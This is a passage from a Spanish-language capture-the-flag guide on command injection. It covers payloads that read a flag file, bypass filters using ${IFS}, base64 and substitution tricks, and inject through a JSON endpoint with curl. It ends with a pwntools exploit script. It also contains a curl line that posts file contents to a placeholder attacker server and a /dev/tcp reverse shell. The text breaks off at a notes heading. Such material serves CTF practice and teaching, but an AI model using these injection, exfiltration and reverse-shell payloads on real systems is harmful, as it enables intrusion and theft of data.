 #### 3) Payloads para extraer la flag (comandos típicos)

- Si la flag suele estar en `/flag` o `/home/ctf-player/flag` prueba:
    

`` ; cat /flag ; cat /home/ctf-player/flag && cat /flag $(cat /flag) `cat /flag` ``

- Si la app filtra `;` intenta alternativas:
    

``&& cat /flag | cat /flag $(cat /flag) `cat /flag` %0a cat /flag   # newline injection via URL-encoding (web context)``

#### 4) Bypass de filtros comunes

- Si aceptan sólo caracteres alfanuméricos, usa `${IFS}` (espacio) y sustituciones:
    

`${IFS}cat${IFS}/flag ${IFS}c${IFS}a${IFS}t${IFS}/flag    # romper filtros que bloquean "cat"`

- Si bloquean `cat` y `;`, intenta `echo` + base64:
    

`; base64 /flag ; cat /flag | base64 ; awk '{print}' /flag ; sed -n '1,1p' /flag`

- Si se filtran backticks, prueba `$()` y viceversa.
    

#### 5) Extracción en entornos remotos con salida limitada

- Si la salida se recorta o no se muestra, vuelca la flag con `curl`/`nc` a tu servidor:
    

`# desde la app inyectada ; curl -X POST -d "$(cat /flag)" https://tu-server.example/recv # o ; /bin/sh -i >& /dev/tcp/TU_IP/TU_PORT 0>&1    # reverse shell (si permitido) # o uso de echo+base64 para evitar saltos raros ; echo $(base64 /flag)` 

(Avisar: sólo usar en la instancia del reto)

#### 6) Ejemplo con `curl` (web POST/JSON)

Si la entrada va en JSON al endpoint `/greet`, prueba:

`curl -s -X POST "https://HOST/greet" \   -H 'Content-Type: application/json' \   -d '{"name":"attacker; cat /flag"}'`

Si hay encoding/URL, codifica el payload:

`# URL-encoding para newline o caracteres especiales curl -s "https://HOST/greet?name=$(python3 -c "import urllib.parse; print(urllib.parse.quote(';cat /flag'))")"`

#### 7) Automatizar con pwntools (si es servicio TCP)

Guarda como `exploit.py` y ajusta HOST/PORT:

`#!/usr/bin/env python3 from pwn import * HOST='HOST'; PORT=1234 p = remote(HOST, PORT) p.recvuntil(b'Name:')   # adaptar prompt p.sendline(b'; cat /flag')   # payload print(p.recvall(timeout=2).decode(errors='ignore')) p.close()`

---

### **Notas adicionales (cortas)**
